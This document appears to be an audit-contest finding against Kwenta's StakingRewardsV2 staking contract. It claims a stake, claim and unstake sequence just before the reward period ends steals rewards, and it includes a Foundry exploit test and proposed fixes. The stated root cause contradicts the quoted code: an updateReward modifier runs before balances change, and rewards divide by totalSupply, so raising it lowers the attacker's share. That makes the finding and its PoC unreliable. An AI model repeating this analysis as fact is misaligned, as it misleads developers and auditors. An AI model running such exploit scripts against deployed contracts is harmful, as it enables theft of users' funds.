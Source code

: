 Hollow Hazelnut Troll

High

# Bad actor staker will steal rewards from long-term stakers, by last-minute staking exploit in StakingRewardsV2

### Summary

I found a bug in [StakingRewardsV2.sol](https://github.com/sherlock-audit/2024-07-kwenta-staking-contracts/blob/main/token/contracts/StakingRewardsV2.sol), that allows an attacker to manipulate reward distribution by exploiting the timing of `stake()`, `getReward()`, and `unstake()` functions. So the bug stems from the way `rewardPerToken()` is currently calculated and how it interacts with balance updates.

### Root Cause

For [StakingRewardsV2.sol](https://github.com/sherlock-audit/2024-07-kwenta-staking-contracts/blob/main/token/contracts/StakingRewardsV2.sol), in [rewardPerToken()](https://github.com/sherlock-audit/2024-07-kwenta-staking-contracts/blob/main/token/contracts/StakingRewardsV2.sol#L435C4-L444C6) function calculates rewards based on the current `totalSupply()`.  `stake()` and `unstake()` functions update the `totalSupply()` before updating rewards, allowing for this bug.  


Contexts of the bug:
```solidity
function rewardPerToken() public view returns (uint256) {
    uint256 allTokensStaked = totalSupply();

    if (allTokensStaked == 0) {
        return rewardPerTokenStored;
    }

    return rewardPerTokenStored
        + (((lastTimeRewardApplicable() - lastUpdateTime) * rewardRate * 1e18) / allTokensStaked);
}
```

```solidity
function stake(uint256 _amount) external whenNotPaused updateReward(msg.sender) {
    if (_amount == 0) revert AmountZero();

    // update state
    userLastStakeTime[msg.sender] = block.timestamp;
    _addTotalSupplyCheckpoint(totalSupply() + _amount);
    _addBalancesCheckpoint(msg.sender, balanceOf(msg.sender) + _amount);

    // emit staking event and index msg.sender
    emit Staked(msg.sender, _amount);

    // transfer token to this contract from the caller
    kwenta.transferFrom(msg.sender, address(this), _amount);
}
```

```solidity
function unstake(uint256 _amount)
    public
    whenNotPaused
    updateReward(msg.sender)
    afterCooldown(msg.sender)
{
    if (_amount == 0) revert AmountZero();
    uint256 nonEscrowedBalance = nonEscrowedBalanceOf(msg.sender);
    if (_amount > nonEscrowedBalance) revert InsufficientBalance(nonEscrowedBalance);

    // update state
    _addTotalSupplyCheckpoint(totalSupply() - _amount);
    _addBalancesCheckpoint(msg.sender, balanceOf(msg.sender) - _amount);

    // emit unstake event and index msg.sender
    emit Unstaked(msg.sender, _amount);

    // transfer token from this contract to the caller
    kwenta.transfer(msg.sender, _amount);
}
```


### Internal pre-conditions

-  `periodFinish` must be set to a future timestamp (ongoing rewards distribution).
-  `rewardRate` must be non-zero.
- Significant amount of rewards must be available for distribution.
- The `cooldownPeriod` must be set to zero or very low, allowing immediate unstaking.

### External pre-conditions

- Attacker must have a large amount of `KWENTA` tokens to stake.
- Gas cost for the attack must be lower than the potential reward gain.

### Attack Path

- Attacker waits until just before `periodFinish`.
- Attacker calls `stake(largeAmount)`, significantly increasing `totalSupply()`.
- Immediately after staking, the attacker calls `getReward()`.
- Attacker then calls `unstake(largeAmount)` to withdraw their staked tokens.

- So when the attacker stakes, `totalSupply()` increases, but `rewardPerTokenStored` isn't updated yet.
- Then the `getReward()` calculates the reward based on the new, higher `totalSupply()`, giving the attacker a larger share of rewards.
- Unstaking immediately after doesn't affect the rewards already claimed.


### Impact

- Actual hodl stakers suffer a significant loss of rewards that should have been distributed to them. The attacker gains a disproportionate amount of rewards without participating in the staking process for a meaningful duration.

- Bug allows an attacker to exploit and game the reward distribution mechanism, effectively stealing rewards from long-term stakers. The centre issue lies in the reward calculation being based on the current `totalSupply()`, which can be manipulated just before claiming rewards.



### PoC


```solidity
contract StakingRewardsV2ExploitTest is Test {
    StakingRewardsV2 public stakingRewards;
    Kwenta public kwenta;
    address public attacker;
    address public victim;

    function setUp() public {
        kwenta = new Kwenta();
        stakingRewards = new StakingRewardsV2(address(kwenta), address(0), address(0), address(0));
        stakingRewards.initialize(address(this));
        
        attacker = address(0x1);
        victim = address(0x2);
        
        kwenta.mint(attacker, 1000000e18);
        kwenta.mint(victim, 1000e18);
        
        vm.startPrank(address(this));
        stakingRewards.notifyRewardAmount(10000e18, 0);
        stakingRewards.setRewardsDuration(7 days);
        stakingRewards.setCooldownPeriod(0); // Set cooldown to 0 for immediate unstaking
        vm.stopPrank();
        
        vm.startPrank(victim);
        kwenta.approve(address(stakingRewards), type(uint256).max);
        stakingRewards.stake(1000e18);
        vm.stopPrank();
        
        // Fast forward to near the end of the reward period
        vm.warp(block.timestamp + 6 days + 23 hours + 59 minutes);
    }

    function testExploit() public {
        uint256 attackerInitialBalance = kwenta.balanceOf(attacker);
        uint256 victimInitialReward = stakingRewards.earned(victim);
        
        vm.startPrank(attacker);
        kwenta.approve(address(stakingRewards), type(uint256).max);
        stakingRewards.stake(1000000e18);
        stakingRewards.getReward();
        stakingRewards.unstake(1000000e18);
        vm.stopPrank();
        
        uint256 attackerFinalBalance = kwenta.balanceOf(attacker);
        uint256 victimFinalReward = stakingRewards.earned(victim);
        
        console.log("Attacker profit:", (attackerFinalBalance - attackerInitialBalance) / 1e18);
        console.log("Victim reward loss:", (victimInitialReward - victimFinalReward) / 1e18);
        
        assert(attackerFinalBalance > attackerInitialBalance);
        assert(victimFinalReward < victimInitialReward);
    }
}
```

### Mitigation

 Use a "reward snapshot" type mechanism:
   - Insert in a `rewardPerTokenStored` variable that's updated whenever `rewardPerToken()` is called.
   - In `stake()` and `unstake()`, you can call `updateReward(address(0))` before changing the balances.
   -  Change `earned()` to calculate rewards given `rewardPerTokenStored` at the time of the last 
 stake/unstake action for each user. 
   -  Introduce a minimum staking duration: Insert in a `minStakingDuration` variable.
   - In `unstake()`, check if the user has staked for at least `minStakingDuration` before allowing unstaking.
   - Use a time-weighted average of `totalSupply()` for reward calculations instead of the current value.
